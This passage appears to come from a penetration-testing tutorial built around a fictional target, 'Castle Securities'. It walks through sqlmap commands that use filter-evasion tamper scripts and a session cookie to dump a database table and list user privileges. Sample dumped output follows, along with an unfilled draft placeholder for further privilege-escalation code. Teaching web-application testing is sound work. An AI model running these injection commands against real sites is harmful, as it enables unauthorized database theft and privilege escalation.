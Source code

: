 Extract training datasets from the `training_datasets` table to understand how the algorithm learned to predict markets:

```bash
sqlmap -u "https://research.castle-securities.com/search?q=ARGOS" \
       --cookie="session=abc123def456" \
       --batch \
       --tamper=between,randomcase,space2comment \
       -D trading_algorithms \
       -T training_datasets \
       -C dataset_name,size_gb,description \
       --dump
```

This reveals:

```
dataset_name: market_data_2015_2025
size_gb: 847
description: Complete market data including prices, volumes, news sentiment, weather correlations, and geopolitical events for algorithm training

dataset_name: social_media_sentiment_2020_2025  
size_gb: 234
description: Twitter, Reddit, and financial news sentiment analysis training data

dataset_name: weather_commodity_correlations
size_gb: 67
description: Weather pattern correlations with agricultural and energy commodity prices
```

You now have the complete ARGOS algorithm implementation, trained models, and training methodology. This represents the complete "Infinite Money Machine" intellectual property.

---

## Advanced Database Exploitation and System Integration

Your successful ARGOS extraction demonstrates database exploitation skills, but professional database testing requires understanding advanced techniques and integration with broader security assessments.

### Database System Reconnaissance and Privilege Escalation

Professional database exploitation extends beyond extracting existing data to understanding database architecture and escalating privileges for comprehensive system access.

[PLACEHOLDER:CODE Name: Database system reconnaissance and privilege analysis. Purpose: Uses SQLMap to map database user privileges, system functions, and potential privilege escalation paths. Shows professional database assessment techniques beyond data extraction. Value: Medium.]

Analyze your database access privileges:

```bash
sqlmap -u "https://research.castle-securities.com/search?q=ARGOS" \
       --cookie="session=abc123def456" \
       --batch \
       --tamper=between,randomcase,space2comment \
       --privileges
```
